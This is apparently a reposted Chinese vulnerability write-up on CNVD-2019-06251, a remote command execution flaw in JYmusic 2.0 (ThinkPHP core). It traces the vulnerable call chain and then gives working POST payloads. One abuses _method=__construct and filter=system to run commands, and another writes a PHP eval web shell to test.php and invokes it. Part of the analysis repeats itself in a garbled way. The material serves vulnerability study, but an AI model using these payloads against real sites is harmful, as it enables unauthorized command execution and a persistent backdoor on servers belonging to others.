# JYmusic 2.0 命令执行漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3004](https://www.zhihuifly.com/t/topic/3004)

# （CNVD-2019-06251）JYmusic 2.0 命令执行漏洞

## 一、漏洞简介

CNVD-2019-06251

## 二、漏洞影响

## 三、复现过程

### 漏洞分析

#### 危险函数

/core/library/think/Request.php类中的filterValue函数中，使用了call_user_func函数。



通过构造使得$filter=system， $value=dir ，通过call_user_func函数即可执行系统命令” dir ”。

#### array_walk_recursive函数

/core/library/think/Request.php类中的input函数里调用了通过array_walk_recursive函数调用了filterValue函数。array_walk_recursive() 函数对数组中的每个元素应用用户自定义函数。





#### input函数

/core/library/think/Request.php中的param函数调用了input函数。





#### exec 函数

/core/library/think/App.php类中的exec 函数通过Request::instance()->param()调用了param函数。



#### run函数

/core/library/think/App.php类中的run函数则调用了exec函数



传入的dispatch和dispatch和dispatch和config两个参数分别来自于/core/library/think/App.php类中run函数里的：





#### 变量覆盖

/core/library/think/App.php类中run函数里，获取dispatch变量值时调用了routeCheck函数。routeCheck函数中则通过Route::chekc调用了check函数。/core/library/think/Route.php类中，check函数通过dispatch变量值时调用了routeCheck函数。routeCheck函数中则通过Route::chekc调用了check函数。/core/library/think/Route.php类中，check函数通过dispatch变量值时调用了routeCheck函数。routeCheck函数中则通过Route::chekc调用了check函数。/core/library/think/Route.php类中，check函数通过request->method()调用了method函数。

/core/library/think/Request.php类中，通过post参数_method=__construct调用构造函数：



在构造函数里用filter=system覆盖类中的filter变量。



post参数 method=GET 就是要再次调用method函数，并且使得if(true===$method)为真，从而获取 _SERVER[REQUEST_METHOD]=dir 这个参数值。



#### 调用入口

/core/library/think/App.php类中的run函数，则是在index.php入口函数中调用。

### 漏洞复现

#### 拦截首页请求，Change request method修改请求方式为POST

#### 参数：



POST的参数的作用已在漏洞分析环节分析。
filter=system&_SERVER[REQUEST_METHOD]=dir&_method=__construct&method=GET
POST参数后不能有\r\n回车换行，如果有就不能成功执行。
POST /captcha HTTP/1.1 //请求一个验证码，引导程序的运行步骤。

#### 写入shell



```
filter=system&_SERVER[REQUEST_METHOD]=echo “<?php @eval($_GET["test"]) ?>” >test.php&_method=__construct&method=GET 
```

#### phpinfo()



```
http://0-sec.org/test.php?test=phpinfo(); `//末尾一定要跟一个“分号” “ ; ” ，如果没有则不能成功执行。` 
```

## 四、参考链接

> https://blog.csdn.net/yun2diao/article/details/91345116